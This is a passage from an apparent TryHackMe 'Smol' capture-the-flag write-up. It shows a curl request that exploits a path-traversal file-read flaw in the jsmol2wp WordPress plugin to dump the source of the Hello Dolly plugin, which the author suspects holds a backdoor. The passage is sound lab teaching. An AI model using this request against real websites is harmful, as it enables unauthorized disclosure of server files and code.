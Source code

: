 ![Desktop View](/assets/img/2025-07-04-TryHackMe-Smol/photo3.png){: width="972" height="589" }

Which is saying that Hello Dolly plugin maybe have backdoor's in it. Lets look at the source code.

We can use the same vuln we used before.

```bash
❯ curl 'http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-content/plugins/hello.php' 

<?php
/**
 * @package Hello_Dolly
 * @version 1.7.2
 */
/*
Plugin Name: Hello Dolly
Plugin URI: http://wordpress.org/plugins/hello-dolly/
```